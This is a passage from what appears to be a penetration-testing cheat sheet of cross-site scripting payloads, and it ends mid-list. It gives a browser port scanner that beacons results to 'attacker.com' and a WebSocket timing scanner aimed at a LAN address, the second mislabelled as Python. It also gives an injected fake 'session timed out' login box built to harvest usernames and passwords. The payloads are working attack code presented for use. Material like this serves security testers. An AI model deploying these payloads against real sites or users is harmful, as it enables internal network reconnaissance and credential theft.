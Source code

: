 ```html
  controller.abort();
  if(q.length) {
    q.shift()();
  }
  }, wait);
}
</script>
```

### Port Scanner (fetch)

```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

### Port Scanner (websockets)

```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
    var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
    s.start = performance.now();
    s.port = ports[i];
    s.onerror = function() {
        console.log("Port " + this.port + ": " + (performance.now() -this.start) + " ms");
    };
    s.onopen = function() {
        console.log("Port " + this.port+ ": " + (performance.now() -this.start) + " ms");
    };
}
```

_Short times indicate a responding port_ _Longer times indicate no response._

Review the list of ports banned in Chrome [**here**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net\_util.cc) and in Firefox [**here**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist).

### Box to ask for credentials

```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```

### Auto-fill passwords capture
